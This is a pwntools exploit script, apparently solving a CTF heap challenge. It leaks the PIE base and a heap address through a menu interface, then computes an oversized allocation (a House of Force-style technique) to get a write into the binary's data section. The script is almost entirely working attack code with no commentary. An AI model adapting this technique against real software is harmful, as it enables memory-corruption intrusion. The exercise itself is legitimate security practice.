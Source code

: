 ```py
# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

def init(size, name):
    io.recvuntil('> ')
    io.sendline(str(size))
    io.recvuntil('> ')
    io.sendline(name)

def getleak():
    io.recvuntil('> ')
    io.sendline('3')

def choose(size, data):
    io.recvuntil('> ')
    io.sendline('1')
    io.recvuntil('> ')
    io.sendline(str(size))
    io.recvuntil('> ')
    io.sendline(data)

def getdrink(member, fuck):
    io.recvuntil('> ')
    io.sendline('2')
    io.recvuntil('> ')
    io.sendline(str(member))
    io.recvuntil('> ')
    io.sendline(str(fuck))

def return_size(target, wilderness):
    return target - wilderness - 0x10

init(0, 'H'*0x17)
io.sendline()
getleak()
io.recvuntil('You sang ')
pie = int(io.recvn(14), 0) - 0xf08
log.info('Pie leak {}'.format(hex(pie)))
choose(0x18, 'K'*0x17)
io.sendline()
getleak()
io.recvuntil('You sang ')
heap = int(io.recvn(14), 0)
log.info('Heap leak {}'.format(hex(heap)))
target_address = pie + 0x202040
choose(return_size(target_address, heap + 0x10), 'A')
choose(0x110, p64(pie + 0x202050) + p64(0x7f7f7f7f7f7f7f7f))
```